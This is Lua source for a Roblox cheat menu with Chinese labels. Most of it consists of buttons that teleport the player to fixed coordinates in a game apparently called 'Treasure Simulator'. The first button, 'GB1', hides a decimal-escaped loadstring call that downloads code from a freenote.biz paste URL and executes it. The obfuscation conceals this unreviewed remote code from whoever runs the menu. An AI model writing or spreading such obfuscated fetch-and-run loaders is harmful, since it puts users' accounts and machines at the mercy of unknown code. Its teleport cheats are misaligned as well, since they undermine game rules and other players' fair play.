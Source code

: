 local creds = window:Tab("内脏与黑火药",'6031097229')

local credits = creds:section("内容",true)
    credits:Button("GB1",function()
    loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\34\104\116\116\112\115\58\47\47\102\114\101\101\110\111\116\101\46\98\105\122\47\114\97\119\47\109\117\122\110\104\101\114\104\114\117\34\41\44\116\114\117\101\41\41\40\41\10")()
end)

local creds = window:Tab("法宝模拟器",'6031097229')

local credits = creds:section("传送",true)
credits:Button("传送到开始区域", function()
      		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(85.86943817138672, 11.751949310302734, -198.07127380371094)
end)

credits:Button("传送到健身区域", function()
      		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(93.60747528076172, 11.751947402954102, -10.266206741333008)
end)

credits:Button("传送到食物区域", function()
      		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(78.86384582519531, 11.751947402954102, 228.9690399169922)
end)

credits:Button("传送到街机区域", function()
      		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(88.99887084960938, 11.751949310302734, 502.90997314453125)
end)

credits:Button("传送到农场区域", function()
      		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(85.6707763671875, 11.751947402954102, 788.5997314453125)
end)

credits:Button("传送到城堡区域", function()
      		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(84.87281036376953, 11.84177017211914, 1139.7509765625)
end)

credits:Button("传送到蒸汽朋克区域", function()
      		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(92.63227081298828, 11.841767311096191, 1692.7890625)
end)

credits:Button("传送到迪斯科区域", function()
      		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(98.69613647460938, 16.015085220336914, 2505.213134765625)
end)

credits:Button("传送到太空区域", function()
      		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(88.42948150634766, 11.841769218444824, 3425.941650390625)
end)
